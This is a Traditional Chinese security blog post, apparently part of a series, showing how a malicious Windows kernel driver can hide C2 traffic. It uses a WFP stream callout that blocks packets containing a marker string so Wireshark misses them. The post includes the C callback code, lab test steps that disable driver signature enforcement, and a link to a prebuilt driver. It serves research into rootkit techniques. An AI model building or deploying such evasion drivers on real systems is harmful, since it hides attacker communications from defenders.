



# 【第 30 話】WFP 隱藏流量

## 文章大綱
在[【第 29 話】WFP 監控流量](/asset/第%2029%20話)說明 WFP 的運作方式與基本使用，這篇要模擬攻擊者利用 WFP 與 C2 溝通。在驅動程式接收到含有特定字串的封包時，先取得封包內容，再把封包擋掉，藉此繞過 Wireshark 偵測。


## 隱藏流量
在[【第 20 話】BYOVD 攻擊](/asset/第%2020%20話)介紹 GhostEmperor 會放後門隱藏網路行為，[卡巴斯基的分析文章](https://securelist.com/ghostemperor-from-proxylogon-to-kernel-mode/104407/)說 GhostEmperor 是透過 Hook NSI Driver 的 IOCTL 來隱藏後門服務的 Port。

這篇則是要用 WFP 來隱藏包含特定字串的流量，根據我目前的研究，還沒有發現惡意程式是用這個方式隱藏自己與 C2 溝通的流量。

實作原理很簡單，用來當作後門的惡意驅動程式載入後，註冊一個 WFP，從 `FWPM_LAYER_STREAM` 這個 Layer 取得 TCP 封包中的資料，檢查裡面有沒有特殊字串 `ithome`。有的話就擋掉，沒有的話就讓封包繼續被解析。




## 寫程式
程式主要參考 [microsoft/Windows-driver-samples](https://github.com/microsoft/Windows-driver-samples/blob/main/network/trans/stmedit/sys/StreamEdit.c)，我從中取出一些需要的程式片段用在實作中並加了一些註解，完整的專案也放在我的 GitHub [zeze-zeze/2023iThome](https://github.com/zeze-zeze/2023iThome/tree/master/HideNetwork)。

跟[【第 29 話】WFP 監控流量](/asset/第%2029%20話)的差別除了 Layer 是改用 `FWPM_LAYER_STREAM_V4` 之外，剩下就是收到封包時的 `Callout.classifyFn` 實作。我們首先申請一塊記憶體存放取得的封包內容，然後要檢查收到的封包的內容是否包含 `ithome` 字串，有的話就把 `actionType` 改成 `FWP_ACTION_BLOCK`，最後把封包內容印出來。

```c
VOID NTAPI ClassifyFunctionRoutine(_In_ const FWPS_INCOMING_VALUES0* fixed_values,
                                   _In_ const FWPS_INCOMING_METADATA_VALUES0* meta_values, _Inout_opt_ VOID* layer_data,
                                   _In_opt_ const VOID* classify_context, _In_ const FWPS_FILTER3* filter,
                                   _In_ UINT64 flow_context, _Inout_ FWPS_CLASSIFY_OUT0* classify_out)
{
    // 預設的 actionType 是 FWP_ACTION_CONTINUE，如果後面有匹配到 ithome 字串則會改成 FWP_ACTION_BLOCK
    classify_out->actionType = FWP_ACTION_CONTINUE;

    FWPS_STREAM_CALLOUT_IO_PACKET* ioPacket = (FWPS_STREAM_CALLOUT_IO_PACKET*)layer_data;
    if (ioPacket)
    {
        // 申請一塊記憶體存放取得的封包內容
        FWPS_STREAM_DATA* streamData = ioPacket->streamData;
        PVOID buf = ExAllocatePoolZero(NonPagedPool, streamData->dataLength + 5, 'HIDE');

        if (buf)
        {
            SIZE_T copy;
            FwpsCopyStreamDataToBuffer(streamData, buf, streamData->dataLength, &copy);
            if (streamData->dataLength == copy)
            {
                // 檢查封包中有沒有包含 ithome 字串，有的話就把 actionType 改成 FWP_ACTION_BLOCK 繞過 Wireshark 偵測
                if (streamData->dataLength >= 6 && strstr(buf, "ithome"))
                {
                    classify_out->actionType = FWP_ACTION_BLOCK;
                }

                // 把封包內容印出來
                PrettyMemory(buf, streamData->dataLength);
            }
            ExFreePoolWithTag(buf, 'HIDE');
        }
    }
}
```

## 測試
開啟 VM，記得要在本機開啟 vmmon64.exe，並在 boot options 按 F8 選擇 `Disable Driver Signature Enforcement`。

1. 開啟 DbgView.exe，建議過濾 `HideNetwork` 讓印出的資訊簡潔一些
2. 利用 [nc64.exe](https://github.com/int0x33/nc.exe/) 在 cmd 輸入指令 `nc64.exe 127.0.0.1 135`，135 Port 是網路芳鄰，如果這個 Port 沒開，可以用 `netstat -ano` 指令任意找一個有開啟的服務的 Port
3. 開啟 Wireshark 偵測 Local Network，因為等等會用 `127.0.0.1:135` 這組 IP、Port 測試
4. 載入 [HideNetwork.sys](https://github.com/zeze-zeze/2023iThome/blob/master/HideNetwork/bin/HideNetwork.sys)

在 cmd 輸入任意字串，例如 `aaaaaaaa...` 時，WireShark 和 DbgView 都可以正常取得封包內容。



但是當輸入 `bbbbbbbbithomebbbbbbbb` 等含有 `ithome` 字串的資料時，DbgView 仍然可以印出封包內容，但是 Wireshark 卻偵測不到封包了。




## 參考資料
- [从 Windows Filtering Platform 学习 TCP/IP（1）](https://bot-man-jl.github.io/articles/?post=2018/Learn-TCP-IP-from-WFP-1#%E4%BC%A0%E8%BE%93%E5%B1%82%E4%BF%AE%E6%94%B9%E6%94%B6%E5%8C%85)
- [从 Windows Filtering Platform 学习 TCP/IP（2）](https://bot-man-jl.github.io/articles/?post=2018/Learn-TCP-IP-from-WFP-2)
- [microsoft/Windows-driver-samples network/trans/stmedit](https://github.com/microsoft/Windows-driver-samples/blob/main/network/trans/stmedit/sys/StreamEdit.c)
- [GhostEmperor: From ProxyLogon to kernel mode](https://securelist.com/ghostemperor-from-proxylogon-to-kernel-mode/104407/)